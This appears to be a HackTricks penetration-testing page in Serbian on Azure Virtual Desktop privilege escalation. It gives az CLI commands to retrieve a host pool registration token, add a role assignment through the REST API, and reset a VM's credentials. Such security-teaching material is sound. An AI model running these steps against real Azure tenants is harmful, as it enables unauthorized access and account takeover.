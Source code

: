 # Az - Virtual Desktop Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Virtual Desktop Privesc

### `Microsoft.DesktopVirtualization/hostPools/retrieveRegistrationToken/action`
Možete preuzeti registracioni token koji se koristi za registraciju virtuelnih mašina unutar host grupe.
```bash
az desktopvirtualization hostpool retrieve-registration-token -n testhostpool -g Resource_Group_1
```
### ("Microsoft.Authorization/roleAssignments/read", "Microsoft.Authorization/roleAssignments/write") && ("Microsoft.Compute/virtualMachines/read","Microsoft.Compute/virtualMachines/write","Microsoft.Compute/virtualMachines/extensions/read","Microsoft.Compute/virtualMachines/extensions/write")

Sa ovim dozvolama možete dodati korisničku dodelu u grupu aplikacija, što je potrebno za pristup virtuelnoj mašini virtuelnog radnog stola.
```bash
az rest --method PUT \
--uri "https://management.azure.com/subscriptions/<SUBSCRIPTION_ID>/resourceGroups/<RESOURCE_GROUP_NAME>/providers/Microsoft.DesktopVirtualization/applicationGroups/<APP_GROUP_NAME>/providers/Microsoft.Authorization/roleAssignments/<NEW_ROLE_ASSIGNMENT_GUID>?api-version=2022-04-01" \
--body '{
"properties": {
"roleDefinitionId": "/subscriptions/<SUBSCRIPTION_ID>/providers/Microsoft.Authorization/roleDefinitions/1d18fff3-a72a-46b5-b4a9-0b38a3cd7e63",
"principalId": "<USER_OBJECT_ID>"
}
}'
```
Pored toga, možete promeniti korisnika i lozinku virtuelne mašine da biste joj pristupili.
```bash
az vm user update \
--resource-group <RESOURCE_GROUP_NAME> \
--name <VM_NAME> \
--username <USERNAME> \
--password <NEW_PASSWORD>
```
{{#include ../../../banners/hacktricks-training.md}}

